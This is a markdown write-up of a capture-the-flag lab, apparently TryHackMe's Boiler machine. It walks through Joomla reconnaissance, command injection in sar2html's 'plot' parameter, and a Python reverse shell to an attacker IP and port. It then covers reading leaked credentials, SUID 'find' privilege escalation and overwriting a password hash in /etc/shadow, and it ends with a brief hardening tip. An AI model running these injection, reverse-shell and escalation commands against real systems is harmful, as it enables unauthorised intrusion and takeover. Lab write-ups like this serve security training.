



# BoilCTF
IP: 10.10.8.187
<br>
First of all went to the IP in the browser and found the apache2 server running. Then I went to robot.txt and found some interesting stuff there:

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Interesting pages on joomla/:
- _test
- administrator
- build
- tests

```
MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut
```

I even tried to use Joomla Scanner, but didn't find anything useful.
```
Joomla version is: 3.9.12

> Joomla! Core 1.5.0 - 3.9.4 - Directory Traversal / Authenticated Arbitrary File Deletion 
> Joomla! 3.9.0 < 3.9.7 - CSV Injection
```

Also I spent a lot of time visiting all the folders, which was a really bad idea. Some interesting stuff that I found there, even though they were not useful at all.
```
tests/codeception/\_support/Shared/UserCredentials.php
http://boilctf.thm/joomla/media/editors/

codemirror/
none/
tinymce/
```

:bulb: After some time, I realized that I needed another tactic. I remembered that there was some weird thing on the _\_test_ page. So I went there. 

Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the url a little bit.<br>
This is a good URL which supposed to give us something whatever.<br>
http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
But if we change it to:
http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
we get some additional results there, which is a response to our command:


I set up an _nc_ listener on port *2222* and used a simple Python reverse-shell which I found on the internet. Therefore, eventually, my URL looked like this:<br>
```
http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

And at this point, we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.

So we got usernames and passwords there.
username: _basterd_<br>
username: _pentest_<br>
password: _superduperp@$$_<br>
**But that actually doesn't matter :)**<br>

I used this command to search for files on the system with the setuid (SUID) permission bit set for the owner.
```
find / -perm -u=s -type f 2>/dev/null
```
There were many files, but the more experience you have the more you understand which files you should look for. So the interesting executable for me was _find_.
I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalate my privileges with this command: 
```
find . -exec /bin/sh -p \; -quit
```
So I executed it and got root.

Even though that reverse-shell worked I wanted to connect via _ssh_ to the machine.
SSH was not on port 22. Reading the ssh config file (`/etc/ssh/sshd_conf`) found that it was running on port `55007`.

Also, I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
```
openssl passwd -6 -salt xyz yourpass
$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.
sed -i 's/^basterd:[^:]\*:/basterd:$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.:/' /etc/shadow
```
And that let me connect via _ssh_.<br>
### A little bit of hardening
To prevent privilege escalation with the _find_ command need to do this:<br>
`chmod u-s /usr/bin/find`
